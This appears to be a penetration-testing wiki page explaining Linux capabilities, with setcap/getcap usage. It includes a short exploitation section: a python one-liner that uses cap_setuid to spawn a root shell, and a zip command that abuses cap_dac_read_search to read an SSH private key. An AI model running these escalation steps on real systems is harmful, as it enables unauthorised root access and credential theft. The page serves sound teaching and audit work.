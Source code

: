```yaml
---
authors: ShutdownRepo, p0dalirius
---
```


# 🛠️ Capabilities

## Theory

Linux capabilities are a way to improve permission granularity in unix-like systems. It allows to follow the least-privilege principle by defining fine-grained permissions that can be attributed to threads and files. It works by splitting kernel calls in groups of similar functionalities.

Basic processes : Have no capabilities (file access is controlled by traditional file privileges).

(Binary) files : Can have capabilities (filesystem-dependent).

Capabilities are in separated in 5 sets :

| Set | Description |
| --------------- | ------------------------------------------------------------------------------------------- |
| Effective set | the set that will be used when doing permission check. |
| Permitted set | can be moved to effective set by calling `capset()` |
| Inheritable set | can be inherited from parent processes, can be moved to effective set by calling `capset()` |
| Bounding set | list of all the capabilities a process can ever receive (in its inheritable/permitted sets) |
| Ambiant set | passed to non-suid files without defined capabilities |



#### Capability inheritance, capability drop

* On `fork()` call, the child thread will have the same capabilities as the parent thread.
* `capset()` syscall allows to
 * drop any capability from any set
 * move capabilities from permitted/inherited sets to effective set
* If a thread calls `execve()` on a binary file, its capabilities will be modified following the pattern described in the man pages (see `man capabilities`).

Non-exhaustive capability list :

| Capability | Description |
| ----------------------- | -------------------------------------------------- |
| `CAP_AUDIT_CONTROL` | Toggle kernel auditing |
| `CAP_AUDIT_WRITE` | Write to kernel audit log |
| `CAP_CHOWN` | Change file owners |
| `CAP_SETUID/CAP_SETGID` | Change UID/GID |
| `CAP_NET_RAW` | Open raw and packet sockets |
| `CAP_NET_BIND_SERVICE` | Bind a socket to Internet domain privileged ports |

## Practice

Setting a file's capabilities :

To change capabilities on a file, you need to type these commands as `root` :

```bash
# set capability to change uid to file (+ep to add to effective & permitted)
setcap cap_setuid+ep /path/to/file

# delete capabilites 
setcap -r /path/to/file

# get file(s) capabilities
getcap -r dir 2>/dev/null
getcap file

# listing & decoding a running process' capabilities
grep Cap /proc/$pid/status
capsh --decode=000001ffffffffff
```

Exploiting capabilities :

* Empty capabilities

 If a file has capabilities `/path/to/file =ep` it means it has `all` capabilities _and_ will run as `root`.

> [!TIP]
> To create a file with empty (=all) capabilities just`sudo setcap \=ep /path/to/file` 

Other classic examples :

* If the `python` binary has the `cap_setuid` then it becomes trivial to get a root shell :

```bash
./python -c "import os; os.setuid(0); os.system('/bin/sh')"
```

* Arbitrary file read : `zip` with `cap_dac_read_search`

```bash
# cap_dac_read_search allows zip/tar to read any file (get ssh private key here)
zip /tmp/private_k.zip ~/.ssh/id_rsa
unzip /tmp/private_k.zip -d /tmp
# id_rsa is now readable in the unzipped folder
```

End notes :

When copied from one place to another, a binary will lose its capabilities. In order to keep capabilities, you can copy the file with `--preserve=all` option :

```bash
# to keep capabilities when copying a binary
cp --preserve=all /origin/path /dest/path
```

## Resources

[https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work](https://blog.container-solutions.com/linux-capabilities-why-they-exist-and-how-they-work)

[https://blog.ploetzli.ch/2014/understanding-linux-capabilities/](https://blog.ploetzli.ch/2014/understanding-linux-capabilities/)

[https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/](https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/)
